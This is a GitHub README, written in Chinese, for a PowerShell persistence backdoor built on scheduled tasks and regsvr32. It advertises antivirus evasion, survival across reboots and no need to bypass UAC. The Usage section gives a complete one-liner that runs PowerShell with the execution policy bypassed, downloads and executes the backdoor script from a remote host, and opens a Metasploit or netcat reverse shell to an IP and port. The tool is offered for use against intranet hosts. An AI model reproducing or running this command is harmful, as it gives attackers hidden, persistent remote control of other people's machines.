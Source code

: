 # Schtasks-Backdoor

## About

一款权限维持后门PowerShell脚本

原理是：schtasks+regsvr32

## Function

内网维持权限方法的一种。免杀效果好，重启生效。支持msf反弹，nc反弹，客户端不会用明显异常

自定义执行命令会有弹框（可以自己修改，思路可以使用mshta），一般实战中用nc或者msf。

## Usage

`powershell.exe -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://8.8.8.8/Invoke-taskBackdoor.ps1');Invoke-Tasksbackdoor -method msf -ip 8.8.8.8 -port 8081 -time 2"`

此脚本优势就是不需要过uac权限。

## Example

![example](https://github.com/re4lity/Schtasks-Backdoor/blob/master/example.gif)
